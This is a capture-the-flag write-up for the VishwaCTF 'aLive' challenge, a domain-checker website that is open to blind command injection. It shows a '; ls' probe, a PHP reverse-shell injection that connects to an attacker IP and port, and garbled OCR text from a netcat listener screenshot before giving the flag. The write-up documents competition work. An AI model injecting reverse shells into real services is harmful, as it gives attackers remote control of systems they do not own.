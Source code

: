 # aLive
> In my college level project I created this website that tells us if any domain/ip is active or not. But there is a catch.

## About the Challenge
We were given a website that has a functionality to check our website is active or not


[Image extracted text: Check your site is
active or not_..
google.com
Check]


## How to Solve?
This website has a `Blind Command Injection` vulnerability. Because when I input `; ls` the website returned success instead of fail


[Image extracted text: Chac
VAuY
#to
ic
Active
Is is activel
OK]


But in this case, when I used `cat` command. The website returned `Something went wrong!`. So I decided to use reverse shell command

```
; php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh <&3 >&3 2>&3");'
```

And then read `flag.txt` file to obtain the flag


[Image extracted text: rootedaffainfo:~# nc ~nlvp 4444
Listening
on
0.0.0.0 4444
Connection
received
on 43.204.138.14 55293
Ls
txt
index.html
index.php
cat
txt
VishwaCTF{blind
cmd-i}
flag 
flag]


```
VishwaCTF{b1inD_cmd-i}
```